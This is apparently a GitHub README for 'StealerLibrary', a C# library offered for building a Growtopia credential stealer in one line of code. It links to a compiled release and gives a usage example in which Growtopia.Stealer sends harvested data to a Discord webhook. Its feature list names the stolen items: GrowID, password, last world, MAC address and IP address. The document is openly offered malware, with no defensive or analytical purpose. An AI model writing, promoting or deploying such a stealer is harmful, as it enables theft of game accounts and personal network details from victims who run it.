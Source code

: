 # StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [Release V1](https://github.com/extatent/StealerLibrary/releases/tag/V1)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/1234567891011/WebhookUrl", "ProfilePictureUrl [Optional]", "Webhook Name", true, true, false);
        }
    }
}
```
1. Webhook Url
2. Profile Picture Url
3. Webhook Name
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)

## Features

- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)

## StealerLibrary is licensed under the GNU General Public License v3.0. Before doing anything with the source code, please read [this.](https://www.gnu.org/licenses/gpl-3.0.html)
